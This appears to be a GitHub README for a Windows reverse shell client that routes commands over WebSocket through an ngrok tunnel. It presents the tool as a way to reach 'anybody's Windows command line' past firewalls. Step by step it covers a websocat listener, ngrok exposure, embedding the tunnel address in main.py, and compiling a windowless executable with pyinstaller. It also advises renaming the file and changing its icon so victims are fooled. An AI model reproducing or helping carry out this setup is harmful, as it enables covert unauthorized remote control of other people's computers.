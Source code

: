 <p align="center">
  <img src="./Images/NEMESIS_TEAM_LOGO.jpg" alt="NEMESIS TEAM LOGO" style="border-radius:5px"/>
</p>

# Intelligent Reverse Shell Client

## Introduction
 - This program is the client side of Reverse shell attack, It was created as a fun project but things get intresting when you can gain access to anybody's Windows command line without being concerned about the FIREWALL xD.
 - Because the Information are being transfered through Websocket, Firewall can do nothing to stop it on the client's system.
 - and Also about the security, By using this you don't need to do port forwarding and other unsafe stuff, so your security is more GURANTEED.
 - the only problem is the speed, the speed may be a little low and that depends on which tunneling service you are using, for now we use ngrok.

## DESCRIPTION
 - If you are the hacker you have to listen for the connection using websocat(included in project for both linux and Windows) and expose it to the internet with ngrok.
 - and then you have to paste the wss address to the main.py -> (the client file) and compile it to exe

---
## How to use
 * Assuming you already have enough knowledge about python, pyinstaller and websockets.

    First of all install the Requirements :
    ```
    pip install -r requirements.txt
    ```
    
    <br>then we have to first setup the listener, It is recomented to listen on a linux machine but Windows is also alright
    as you can see in `Listeners` Directory we have <a href="https://github.com/vi/websocat">Websocat</a><br>
     both for windows and linux, If you faced any error try downloading the last version

     based on your OS run:
    ```
    websocat -s xxxx
    ```
    where xxxx is the port you want to listen on so replace it with a port number like
    ```
    websocat -s 5050
    ```
    <br>
    Now we have to expose port 5050 to the internt so we can make it accessible for the target so we can access the target Windoes machine.
    <br>
    Doanload <a href="https://ngrok.com">ngrok</a>.<br><br>
    After downloading ngrok:<br>
    on windows : Move it to a folder so you can run it by opening a cmd in that directory<br>
    on Linux: Also do the same thing as windows except you also have to give execute permition to it by running:<br>
    
    ```
    chmod +x ngrok
    ```
    Then copy your Authtoken from <a href="https://ngrok.com">ngrok</a> Dashboard and then run:

    ```
    ./ngrok authtoken xxxxx
    ```
    replace your token with xxxxx.<br>
    After authenticating it's time to run it:

    ```
    ./ngrok http 5050
    ```
    (!) Note : make sure the port you are using for both websocat and ngrok are the same.<br>
    After Running that you will see something like this:<br>
    <p align="center">
    <img src="./Images/ngrok.png" alt="ngrok"/></p>

    Just Copy the link as underlined in the screen shot and paste it in `address = ""` variable in main.py <br> ( [!] Don't forget to replace `https` with `wss` ).
    <br><br>

    Now that we have set up our liteners we need to compile the main.py to exe.
    <bt>
    run:

    
    -   ```
        pip install pyinstaller
        ```
    - ```
      pyinstaller --onefile --noconsole main.py
        ```
    
        - Now You'll find the executable in dist and we will gain access to the windows machine who runs this executable
         - you can rename it to whatever you want and even change the icon to make it more realistic.
    
    



---
## NOTES
- Any Recommendation will be appreciated, don't forget `Pull requests` if you have any idea to improve this project . 👙🤺


### Do not HeZiTaTe to open issues if there was a problem!
<p align="center">
❤️❤️❤️
</p>